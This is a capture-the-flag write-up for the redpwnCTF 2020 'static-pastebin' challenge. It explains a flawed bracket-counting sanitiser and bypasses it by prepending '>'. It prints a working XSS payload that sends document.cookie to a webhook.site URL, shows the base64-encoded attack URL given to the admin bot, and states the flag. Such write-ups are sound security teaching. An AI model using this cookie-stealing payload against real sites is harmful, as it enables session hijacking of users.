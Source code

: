 # static-pastebin

## Problem

```
I wanted to make a website to store bits of text, but I don't have any experience with web development. However, I realized that I don't need any! If you experience any issues, make a paste and send it here

Site: static-pastebin.2020.redpwnc.tf

Note: The site is entirely static. Dirbuster will not be useful in solving it.
```

## Solution

We are given a link to 2 different sites, the [pastebin site](./images/staticpaste1.PNG) and an [admin bot website](./images/staticpaste2.PNG)
which visits any URL it is given.

Immediately I thought of reflected XSS as this was similar to a challenge in the recent WeCTF. I had never attempted 
XSS in a practical context before, so this was a good opportunity to learn. 

I tried submitting `<script>alert(123)</script>` to the pastebin site to see if basic XSS could be exploited.
However it didn't return anything. I checked the `script.js` of the pastebin page post-submission and found some [sanitisation](./files/static-pastebin/script.js)
involved:

```javascript
function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}
```

The function does an improper sanitisation, by counting the tag brackets `<>` in the input. This can easily be bypassed by  
prepending a close angle bracket `>` to your input thereby setting `brackets` to -1 initially. Any subsequent content within 
enclosed tags will be processed, allowing us to execute XSS payload.

Another important observation from the pastebin site: it takes the submitted input, encodes it with Base64 and appends
it to the back of the URL `https://static-pastebin.2020.redpwnc.tf/paste/#`.  For example, by submitting `hello` on the 
pastebin site, the URL returned is `https://static-pastebin.2020.redpwnc.tf/paste/#aGVsbG8K`. `aGVsbG8K` is the base64
 encoding of `hello`.

![](images/staticpaste3.PNG)


So our plan is:
1. Set up a device to capture and read requests.
    * We can use [Webhook.site](https://webhook.site/), an API to intercept requests and view their data upon certain events
      being triggered.
      
2. Craft the XSS payload.
    ```javascript
    ><img src=/ onerror="javascript:document.location='https://webhook.site/17ea03fd-9bdf-4c80-a9b1-8e4ee88cd72f?c='+document.cookie"></img>
    ```
    * This code will attempt to load an image from the `/` filepath where no image exists. This invokes an error, triggering 
    the `onerror` code execution, which sends a request to our webhook site from (1) with the document cookie as a URL slug.
    
3. Base64 encode the payload in (2), append it to back of the pastebin site post-submission URL.
    
    ```
    https://static-pastebin.2020.redpwnc.tf/paste/#PjxpbWcgc3JjPXggb25lcnJvcj0iamF2YXNjcmlwdDpkb2N1bWVudC5sb2NhdGlvbj0naHR0cHM6Ly93ZWJob29rLnNpdGUvMTdlYTAzZmQtOWJkZi00YzgwLWE5YjEtOGU0ZWU4OGNkNzJmP2M9Jytkb2N1bWVudC5jb29raWUiPjwvaW1nPg==
    ```
4. Input the URL in (3) to the [admin bot site](images/staticpaste4.PNG).
    
This should send a request to our webhook site which captures to displays the data, including the flag.

![](images/staticpaste_flag.PNG)

**Flag**: `flag{54n1t1z4t10n_k1nd4_h4rd}`
